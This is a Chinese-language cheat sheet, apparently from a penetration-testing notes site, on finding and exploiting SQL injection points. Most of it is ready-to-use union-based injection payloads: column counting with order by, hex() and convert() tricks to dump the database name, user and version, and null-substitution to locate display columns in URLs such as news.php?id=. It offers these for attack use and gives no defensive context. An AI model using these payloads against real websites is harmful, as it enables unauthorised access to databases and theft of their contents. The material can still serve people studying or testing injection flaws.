 ```yaml
---
layout: default
---
```

# ![](../img/hj.jpg)SQL漏洞挖掘
>小贱提示： 通常出现在登陆页面，获取HTTP头（user-agent/client-ip/x-forwarded-for等）、订单处理等地方

## ![](../img/github27.png)显示位能显示数字却不显示user()
很可能是编码问题

方法1，用hex():
```html
id=-1 union select 1,2,hex(concat(database(),0x5c,user(),0x5c,version())),4,5,6 from xxx
```
方法2，用convert():
```html
id=-1 union select 1,2,convert(concat(database(),0x5c,user(),0x5c,version()) using latin1),4,5,6 from xxx
```
## ![](../img/github1.png)order by能查到字段数，但union select时页面跳转到xxx.com/n，404错误
如：
```html
http://www.test.com/news.php?id=12' order by 13%23
```
页面显示正常，14错误，说明注入点为字符型，字段数为13
```html
http://www.test.com/news.php?id=0‘ union select 1,2,3,4,5,6,7,8,9,10,11,12,13%23
```
页面跳转到http://www.test.com/3,说明3号位置有异常

解决办法：用null替换掉异常位置，如：
```html
http://www.test.com/news.php?id=0‘ union select 1,2,null,4,5,6,7,8,concat(database(),0x3a,user(),0x3a,version()),10,11,12,13
```
## ![](../img/github2.png)union select时提示说类型错误
把数字用null全部替换掉
```html
id =1 union select null,null,null,null,null,null,null,null,null,null,null,null,null%23
```
然后把null依次替换成相应数字，一次替换一个，如果正常返回就保留数字，如果错误就替换回null，在替换下一个数字（当然也可以替换文本‘a’，‘b’等，也可以数字文本相结合）

最后的结果是
```html
union select null,2,3,null,‘a',null,'b',8,null,null,null,null,null%23，
```
这样就能够定位显示位是哪个了，这里如果开了gpc，可以把字符串都换成version()

## ![](../img/github3.png)查字段数可以用id=1 order by也可以用id=1 union select 1,2,3,4,5
原理：union select的前提是两侧字段数目相同
__原创文章，转载请注明转载自[http://www.8pwn.com](http://www.8pwn.com)__

[返回上一层](./web)
